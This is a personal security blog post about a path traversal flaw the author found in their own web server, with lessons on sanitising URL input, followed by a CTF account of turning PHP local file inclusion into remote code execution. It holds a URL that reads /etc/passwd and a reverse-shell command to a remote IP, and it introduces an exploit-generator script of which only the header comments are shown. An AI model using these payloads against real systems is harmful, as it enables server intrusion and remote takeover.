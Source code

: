 So I tried manipulating my own URL as follows: `http://niekdeschipper.com/projects/../../../../../../etc/passwd`. The `../../../../` part traverses back to the root of the file system, and `/etc/passwd` is the path to a fairly common file that almost always exists. It shows which users are present on the server, and at some point in history, it contained passwords. This did not work, but after applying url encoding, I got the following:


<p style="text-align:center;">
    <img src="/hacked.png" width="800" class="center">
</p>

Oh no! This was a very funny moment. I never realized this would be a possibility when I designed my own janky web server. I knew the phrase "never trust user input," but did not realize that the URL is also user input. In my case, it wasn't that bad. Although visitors to my site had access to the whole file system all this time, there was no sensitive information on the server because I run the web server in a container on Kubernetes. If I ran it on a virtual machine, or, God forbid, my own personal machine, it would have been a completely different story. Everyone would have had access to all kinds of access keys.

So, what lessons can you learn from this?

* Don't use unsanitized input from the URL to retrieve and display files from the file system. You could sanitize the input by making path traversal impossible, or even better, only allow whitelisted user input.
* Prevent needing user input altogether. Why did I even use the URL path to retrieve files anyway? The answer: because I was lazy. Now, I generate my HTML files beforehand (not upon request), like other static site generators.
* Don't create your own static website generator. Although I am happy with it, if I would have known better, I would have picked an existing technology.


<h2 class="border-bottom mb-3 mt-5">Local file inclusion to remote code execution</h2>

Another CTF had me exploit LFI to remote code execution, which seemed insane to me at first. How would you get remote code execution from only local file inclusion?
Well, in comes the php wrapper filter module. If this module is enabled and if LFI is possible on the server by means of the `include()` function, you are in!

You can abuse the php filter module to add characters to the file to be included in an `include()` function. Everything that ends up in the `include()` statement gets executed on the server, so you can add code before the file, that retrieves a reverse shell from the url and executes it (for example: `exec('bash -i > /dev/tcp/10.10.10.10/4444 0>&1');`).


I crafted the following URL exploit generator from various sources on the internet (the ones I found did not end up working for me), it has been very useful for CTFs thus far (I don't expect it to be very relevant these days anymore in reality). But if you encounter a php web server vulnerable to LFI, chances are the might be also vulnerable to this. Below you can find the script, it is meant to be quite readable:

```python
# Local file inclusion (LFI) to RCE (Remote code execution) Exploit
#
# This script generates a url containing a command to be executed on the target
# The script works if LFI is possible on a server running php, in combination with the php filter wrapper
#
# It is based on a bunch of similar scripts, that did not do the trick for me,
# so I created a new one. It has been very helpful in more CTF's than I anticipated.
#
# For information see:
# See: https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters
#
# Usage:
# Set the variables
# python3 ./exploit.py


################################################################################################3
```